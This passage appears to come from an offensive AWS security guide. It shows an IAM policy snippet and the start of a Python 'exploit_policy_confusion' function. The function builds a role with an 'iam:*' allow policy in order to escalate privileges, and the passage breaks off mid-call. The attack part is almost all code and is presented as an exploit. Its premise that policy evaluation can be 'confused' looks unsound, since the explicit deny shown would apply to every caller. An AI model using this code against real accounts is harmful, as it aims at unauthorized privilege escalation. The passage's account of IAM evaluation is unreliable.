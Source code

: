 ```
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "*",
      "Resource": "*",
      "Condition": {
        "DateGreaterThan": {
          "aws:CurrentTime": "2024-12-31T23:59:59Z"
        }
      }
    },
    {
      "Effect": "Allow",
      "Action": "iam:*",
      "Resource": "*"
    }
  ]
}
```

**Exploitation:**
```python
def exploit_policy_confusion(iam_client):
    """Exploit policy evaluation order and condition confusion"""

    # Create role with confused policy evaluation
    trust_policy = {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {"Service": "lambda.amazonaws.com"},
                "Action": "sts:AssumeRole"
            }
        ]
    }

    # Policy with intentional confusion
    escalation_policy = {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Deny",
                "Action": ["iam:CreateRole", "iam:AttachRolePolicy"],
                "Resource": "*",
                "Condition": {
                    "StringNotEquals": {
                        "aws:userid": "non-existent-user"
                    }
                }
            },
            {
                "Effect": "Allow",
                "Action": "iam:*",
                "Resource": "*"
            }
        ]
    }

    try:
        # Create escalation role
        iam_client.create_role(
            RoleName='ConfusedPolicyRole',
            AssumeRolePolicyDocument=json.dumps(trust_policy)
```